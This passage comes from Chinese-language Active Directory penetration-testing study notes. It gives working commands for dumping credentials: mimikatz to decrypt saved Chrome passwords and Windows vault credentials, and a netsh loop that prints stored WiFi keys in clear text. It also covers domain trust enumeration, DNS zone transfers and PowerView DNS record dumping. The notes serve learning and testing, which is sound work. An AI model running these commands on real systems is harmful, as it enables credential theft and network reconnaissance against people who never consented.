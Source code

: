 两者具体的区别可以查看[官方文档](https://msdn.microsoft.com/en-us/library/aa380517.aspx)。其余的东西就不照搬了，需要的时候查阅一下即可~

### DPAPI

> 先给出[微软官方文档](https://docs.microsoft.com/en-us/previous-versions/ms995355(v=msdn.10)?redirectedfrom=MSDN)，其实每个知识点都可以深入看的。但目前我的小目标是先大致理解，在整个流程上明白后再慢慢深入，查漏补缺

DPAPI(Data Protection API)即文件保护API，提供了加密函数 CryptProtectData 与解密函数 CryptUnprotectData。我的理解就是一套对外提供加解密的接口，为用户和系统进程提供操作系统级别（底层）的数据保护服务
这个还是挺有意思的，之前没接触过，实操一边记录一下：

1. mimikatz抓chrome密码（这里直接在本机上抓）
   `mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect`

   ![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/chrome.png)

2. mimikatz解密Credential（需要管理员权限）
   `mimikatz vault::cred /patch`
   ![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/vault.png)

### 域信任

> 这里应该要去搭建多域环境，先挖一个坑，后面再回来看看

`nltest /domain_trusts`

### 域传送

> 补充原理：DNS服务器分为主、备以及缓存服务器。主备之间同步数据，需要通过DNS域传送。具体指备服务器需要从主服务器拷贝数据来更新自身数据库。其原因为配置不当，如果存在则很快将内部的网络拓扑泄露

windows下的利用方法：

1. nslookup -type=ns domain.com （查出ns服务器）
2. nslookup
3. server xxx.domain.com（查出的ns服务器）
4. ls domain.com

linux下利用方法：

​`dig  @dns.domain.com axfr domain.com`

### DNS记录获取

这里用PowerView实现

1. Import-Module PowerView.ps1
2. Get-DNSRecord  -ZoneName xxcom.local

![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/dns.png)

### WIFI

> 这个我觉得挺好的哈哈哈，个人PC机器很有用

`for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles')  do @echo %j | findstr -i -v echo |  netsh wlan show profiles %j key=clear`
![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/WIFI.png)
